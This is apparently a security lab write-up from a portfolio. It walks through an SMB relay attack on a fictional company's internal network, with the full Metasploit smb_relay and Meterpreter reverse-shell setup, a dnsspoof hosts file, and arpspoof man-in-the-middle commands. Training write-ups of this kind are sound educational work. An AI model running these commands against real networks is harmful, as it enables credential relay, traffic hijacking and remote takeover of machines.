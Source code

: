 # Internal Penetration Test – Slytherin Solutions

## Scenario

You have been hired by Slytherin Solutions, a mid-sized technology company, to conduct a security assessment. The company wants to evaluate potential risks within its internal network and has authorized a controlled penetration test within the defined scope.

**Scope & Rules of Engagement**

- The penetration test is internal, meaning you are connected directly to their LAN.

- The network range for testing is 192.168.50.0/24.

- No credential brute-forcing to avoid locking out user accounts.

- Focus on network-based attacks, specifically SMB Relay and DNS spoofing.


**Objectives**

- Exploit misconfigurations using SMB Relay Attack.

- Manipulate network traffic using dnsspoof to redirect victims.


**Skills & Techniques Covered**

* Performing SMB Relay attacks against patched systems.
* Using dnsspoof to manipulate network traffic and redirect requests.
* Leveraging Metasploit for exploitation and session management.

**Tools Required**

- dnsspoof (for ARP and DNS spoofing)

- Metasploit Framework (for SMB relay exploitation)

## SMB Relay Attack Execution
In this scenario, I launched an SMB Relay Attack to intercept and relay authentication requests from a client machine to a target system, ultimately gaining a Meterpreter shell.

**Attack Flow**

* A client machine (192.168.50.12, running Windows 7) automatically attempts an SMB connection to \\fileserver.slytherin.com\wallet$ every 30 seconds.

* The attacker machine (192.168.50.23) spoofs the IP address of fileserver.slytherin.com to redirect SMB traffic.
* The client unknowingly connects to the attacker's machine instead of the real fileserver.slytherin.local.
*  The SMB Relay exploit (running on the attacker machine) captures and relays the authentication request to a vulnerable target (192.168.50.4).
*  The exploit successfully authenticates on the target and delivers a Windows Meterpreter shell, granting access to the system.

**Attack Execution**

Step 1: Start msfconsole and configure the SMB Relay exploit

````bash
msfconsole
use exploit/windows/smb/smb_relay
set SRVHOST 192.168.50.23
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.50.23
set SMBHOST 192.168.50.4
exploit
````

![image](https://github.com/TheThreatTitan/My-Portfolio/blob/main/Offensive-Security/Images/smbr1_L.jpg)

Step 2: In a new tab, configure dnsspoof in order to redirect the victim to our Metasploit system every time there's an SMB connection to any host in the domain: slytherin.com. Create a file with fake dns entry with all subdomains of
slytherin.com pointing to our attacker machine.

````bash
echo "192.168.50.23 *.slytherin.com" > hosts
````

- run dns spoof in the same tab

````bash
dnsspoof -i eth1 -f hosts
````

image

Step 3: Activate the MiTM attack using the ARP Spoofing technique. My goal is to poison the traffic between my victim, Windows 7 at 192.168.50.12, and the default gateway at 192.168.50.1. In this way, I can manipulate the traffic using dnsspoof, which is already running. 
In order to perform an ARP Spoofing attack, I enabled the IP forwarding as follow in a new tab (3):

````bash
echo 1 > /proc/sys/net/ipv4/ip_forward
````

In two separate terminals, start the ARP Spoof attack against 192.168.50.12 and 192.168.50.1 using these commands:

````bash
arpspoof -i eth1 -t 192.168.50.12 192.168.50.1
arpspoof -i eth1 -t 192.168.50.1 192.168.50.12
````
![image](https://github.com/TheThreatTitan/My-Portfolio/blob/main/Offensive-Security/Images/smbr2_LI.jpg)

![image](https://github.com/TheThreatTitan/My-Portfolio/blob/main/Offensive-Security/Images/smbr3_L.jpg)

So, every time the victim starts an SMB connection, dnsspoof aligned with the ARP Spoof attack, forges the DNS replies telling that the searched DNS address is hosted at the attacker machine:

![image](https://github.com/TheThreatTitan/My-Portfolio/blob/main/Offensive-Security/Images/smbr4_LI.jpg)

Instead of getting a DNS response with the real IP address of fileserver.slytherin.com, it received the IP of the attacker: 192.168.50.23. In Metasploit, every time there is an incoming SMB connection, the SMB Relay exploit
grabs the SMB hashes (credentials) and then uses them to get a shell on the target machine (192.168.5.4) - since it was set in the SMBHOST field of the smb-relay exploit.

![image](https://github.com/TheThreatTitan/My-Portfolio/blob/main/Offensive-Security/Images/smbr5_LI.jpg)

## Key Takeaway
In this lab, I were able to trick the client by spoofing DNS records, this, in turn, combined with SMB relay attack, provided us with a meterpreter session on the target machine with administrative privileges.
